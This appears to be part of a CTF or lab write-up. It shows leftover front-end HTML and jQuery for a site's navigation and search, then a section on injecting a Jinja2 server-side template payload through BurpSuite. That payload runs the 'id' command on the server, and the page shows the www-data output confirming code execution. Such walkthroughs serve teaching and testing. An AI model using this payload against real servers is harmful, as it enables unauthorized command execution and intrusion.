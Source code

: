 ```html
      } else {
        $("#site-header").removeClass("nav-fixed");
      }
    });
  
    //Main navigation Active Class Add Remove
    $(".navbar-toggler").on("click", function () {
      $("header").toggleClass("active");
    });
    $(document).on("ready", function () {
      if ($(window).width() > 991) {
        $("header").removeClass("active");
      }
      $(window).on("resize", function () {
        if ($(window).width() > 991) {
          $("header").removeClass("active");
        }
      });
    });
  </script>
  <!--//MENU-JS-->
  
  <!-- Search -->
  <script>
    $('.control').click(function () {
      $('body').addClass('search-active');
      $('.input-search').focus();
    });
  
    $('.icon-close').click(function () {
      $('body').removeClass('search-active');
    });
  </script>
  <!-- //Search -->
  
  <script src="/static/assets/js/bootstrap.min.js"></script>
  
  
  </body>
  
  </html>
```


## Sending a payload 📦🧳🎁

try edit the request in BurpSuite for the Name value:
Use this to confirm, by calling for the ID command on the server, if the exploit is working

```js
name={{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

Response "Hey uid=33(www-data) gid=33(www-data) groups=33(www-data)"
```
